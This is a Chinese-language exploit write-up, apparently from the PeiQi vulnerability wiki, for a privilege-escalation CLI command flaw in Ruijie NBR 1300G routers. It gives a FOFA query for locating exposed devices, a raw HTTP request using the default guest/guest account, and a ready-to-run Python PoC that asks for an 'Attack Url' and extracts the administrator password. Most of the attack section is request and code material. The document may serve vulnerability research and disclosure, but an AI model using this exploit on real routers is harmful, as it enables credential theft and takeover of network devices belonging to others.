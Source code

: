 ```yaml
---
title: 锐捷NBR 1300G路由器 越权CLI命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 锐捷
---
```


# 锐捷NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

> [!NOTE]
>
> 锐捷NBR路由器

## FOFA

> [!NOTE]
>
> title="锐捷网络 --NBR路由器--登录界面"

## 漏洞复现

登录页面如下

![](/img/20210924013530386855.png)

查看流量发现 CLI命令流量

![](/img/20210924013531186717.png)

请求包为

```
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）

登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码

![](/img/20210924013532283354.png)

成功获取所有用户的账号密码

```
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷NBRNBR1300G 路由器 越权CLI命令执行漏洞                    \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/WEB_VMS/LEVEL15/"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = 'command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "webmaster" in response.text and " password" in response.text and response.status_code == 200:
            user_data = re.findall(r'webmaster level 0 username admin password (.*?)<OPTION>', response.text)[0]
            print("\033[36m[o] 成功获取, 管理员用户账号密码为: admin/{} \033[0m".format(user_data))
        else:
            print("\033[31m[x] 请求失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)

```

![](/img/20210924013532943539.png)